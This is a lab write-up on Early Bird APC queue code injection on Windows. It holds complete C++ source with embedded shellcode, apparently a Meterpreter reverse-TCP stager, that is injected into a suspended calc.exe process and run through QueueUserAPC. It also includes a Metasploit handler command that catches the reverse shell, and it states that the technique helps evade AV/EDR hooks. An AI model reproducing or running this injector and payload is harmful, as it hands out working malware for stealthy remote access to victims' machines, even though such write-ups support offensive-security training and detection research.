



# Early Bird APC Queue Code Injection

This short lab is related to a different version of the APC queue code injection technique I tinkered with here:



## Overview

High level overview of the technique:

1. A malicious program creates a new legitimate process \(say calc.exe\) in a suspended state
2. Memory for shellcode is allocated in the newly created process's memory space
3. APC routine pointing to the shellcode is declared
4. Shellcode is written to the previously allocated memory
5. APC is queued to the main thread \(currently in `suspended` state\)
6. Thread is resumed and the shellcode is executed
7. Meterpreter session established

One of the main advantages of this technique over the regular APC Queue code injection, is that in Early Bird technique, the malicious behaviour takes place early on in the process initialization phase, increasing the likelihood of going under the radar of some AV/EDR hooks.

## Execution

Below image \(top\) shows that I've hit the breakpoint on line 19, meaning that a new `calc.exe` process has been created in a `suspended` state \(defined in line 15\).

If we check the newly started `calc.exe` in the Process Hacker, we can confirm that the main thread is indeed `suspended` \(bottom\):


After line 19 is executed, we get the address of the newly allocated memory. This is where the shellcode will be written to:

```cpp
LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```



Below shows how the shellcode gets written to memory address `0000023b82480000` of the `calc.exe` with:

```cpp
WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
```



Before continuing, let's fire up a multi handler on the attacking system so we can catch the meterpreter session:


```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/x64/meterpreter/reverse_tcp; exploit"
```


Back to executing the malicious code - once the shellcode is written into the process memory, the APC is queued to the thread which is then immediately resumed. Resuming the thread in turn executes the shellcode which results in a meterpreter session:



## Code


```cpp
#include "pch.h"
#include <Windows.h>

int main()
{
	unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";
	SIZE_T shellSize = sizeof(buf);
	STARTUPINFOA si = {0};
	PROCESS_INFORMATION pi = {0};

	CreateProcessA("C:\\Windows\\System32\\calc.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
	HANDLE victimProcess = pi.hProcess;
	HANDLE threadHandle = pi.hThread;
	
	LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	
	WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
	QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);	
	ResumeThread(threadHandle);

	return 0;
}
```


## References





